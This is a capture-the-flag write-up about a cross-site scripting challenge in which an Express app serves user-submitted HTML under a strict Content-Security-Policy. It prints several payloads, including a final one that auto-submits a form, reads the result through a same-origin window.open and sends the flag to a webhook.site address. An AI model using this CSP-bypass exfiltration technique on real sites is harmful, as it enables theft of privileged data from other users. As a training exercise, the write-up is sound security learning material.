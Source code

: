 # California State Police

Lets report some cybercrime 🚔🚔🚔🚔🚔

![prompt](https://i.imgur.com/wgtZemX.png)

## Reconnaisance

We are given `index.js` of the server which is an express app.

`GET /report/:id` endpoint seems to return an html document of our choosing because it sets the mimetype to `text/html` and sends the crime we submit. Since the challenge has an admin bot, we can infer that we are supposed to get the admin to visit our site which will cause us to capture the flag.

```js
app.get("/report/:id", (req, res) => {
  if (reports.has(req.params.id)) {
    res.type("text/html").send(reports.get(req.params.id));
  }
  ...
});
```

`POST /report` allows us to report a cybercrime. There is essentially no filtering done on this endpoint (other than length checking)

```js
app.post("/report", (req, res) => {
  res.type("text/plain");
  const crime = req.body.crime;
  ...
  const id = uuid();
  reports.set(id, crime);
  cleanup.push([id, Date.now() + 1000 * 60 * 60 * 3]);
  res.redirect("/report/" + id);
});
```

`POST /flag` is the only way to recover the flag (as `GET /flag` returns an error)

```js
app.post("/flag", (req, res) => {
  if (req.cookies.adminpw === adminpw) {
    res.send(flag);
  } else {
    res.status(400).send("no hacking allowed");
  }
});
```

And finally, there is a `Content-Security-Policy` of `default-src 'none'; script-src 'unsafe-inline'` which means that we cannot load external resources and we can only run inline scripts.

## Exploitation

Since the content-security-policy has a default-src of none, we cannot use fetch to `POST /flag` and then send the flag to a webhook. I tried submitting a payload of

```html
<script defer>
  fetch('/flag', { method: 'POST' })
</script>
```

but in the console, I saw that csp blocked the fetch request.

![cspblock](https://i.imgur.com/xFxwqie.png)

This means we have to use other methods of sending requests like redirects and forms.

HTML `<form>` element can be used to send post requests with the `action` and `method` attributes.

```html
<!-- POST to /flag -->
<form action="/flag" method="POST">
  <input type="submit" value="Submit" />
</form>

<script defer>
  // click submit button
  document.querySelector('[type=submit]').click();
</script>
```

Submitting this payload successfully allows us to send a `POST /flag` as shown by the response of `no hacking allowed` (which is in the post handler).

![nohacking](https://i.imgur.com/Qma8iH9.png)

Now that we can send a post request to get the flag, we need some way to retrieve the flag. Since we used a form to submit the post request, the page redirects to `/flag` after the request is sent. This means we cannot read the flag because it is on a page we do not have js running on.

My initial plan was to embed an `<iframe>` into the page which submits `POST /flag` and then observe the page's contents for the flag. However, CSP applies to iframes so we cannot use them.

There is another similar approach that can work. `window.open(url)` in js will open a url in a new tab and return the window object of the tab. If the url is of the same domain, we can access ALL of the windows properties of that tab (including the document).

We can devise a payload that has two parts: one that redirects to the flag and one that observes the flag tab for the flag and sends it back to a webhook. We can send the flag back to the webhook by redirecting to our webhook site and appending the flag as a query parameter. The final payload (with comments) is below. Submitting the payload with these comments will fail because `lactf` in the payload causes recursive `window.open()` calls.

```html
<form action="/flag" method="POST">
  <input type="submit" value="Submit" />
</form>

<script defer>
  // url with #nyahallo at the end will be the one that submits the form
  // other url will observe #nyahallo
  if (window.location.hash == '#nyahallo') {
    document.querySelector('[type=submit]').click();
  } else {
    const other = window.open(window.location.href + '#nyahallo');
    const interval = setInterval(() => {
      // check for lactf,
      // using 'lactf' instead of 'la'+'ctf' results in recursive
      // window.open()
      if (!other.document.body.innerHTML.includes('la'+'ctf')) return;
      window.location.href = 'https://webhook.site/106fefb8-2bfa-4ade-889f-b6a24297c8ec?flag=' + encodeURIComponent(other.document.body.innerHTML);
      // avoid spamming window.open()
      clearInterval(interval);
    }, 100);
  }
</script>
```

After I submitted the crime link with the body of above payload to the admin bot, we see the webhook request and the flag has been captured.

![webhook](https://i.imgur.com/wZxtmcR.png)
